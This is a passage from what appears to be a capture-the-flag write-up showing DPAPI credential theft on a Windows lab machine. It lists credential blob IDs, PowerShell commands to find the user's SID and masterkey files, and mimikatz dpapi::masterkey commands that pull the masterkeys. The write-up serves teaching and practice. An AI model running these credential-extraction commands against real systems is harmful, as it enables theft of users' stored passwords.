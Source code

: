 So now we know here are 3 different credential blobs namely:

- 18A1927A997A794B65E9849883AC3F3E
- 84F1CAEEBF466550F4967858F9353FB4
- E76CCA3670CD9BB98DF79E0A8D176F1E

So next up we need to found all the potential masterkeys. To do this we first need to find the SID

```powershell
get-childitem C:\Users\PPotts\appdata\roaming\microsoft\protect\
```

![SID](/assets/img/Office/Office_30.png)

Now that we know the SID we can check what masterkey objects are present within this SID's directory. here we can see there are two objects namely **10811601-0fa9-43c2-97e5-9bef8471fc7d** and **191d3f9d-7959-4b4d-a520-a444853c47eb**

```powershell
get-childitem -hidden C:\Users\PPotts\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107
```
![MAsterkey locations](/assets/img/Office/Office_31.png)

At this moment i don't know which one was the right one yet so you should extract the masterkey from both of them


```powershell
.\mimikatz.exe "dpapi::masterkey /in:C:\Users\PPotts\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107\10811601-0fa9-43c2-97e5-9bef8471fc7d /rpc" "exit"
.\mimikatz.exe "dpapi::masterkey /in:C:\Users\PPotts\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb /rpc" "exit"
```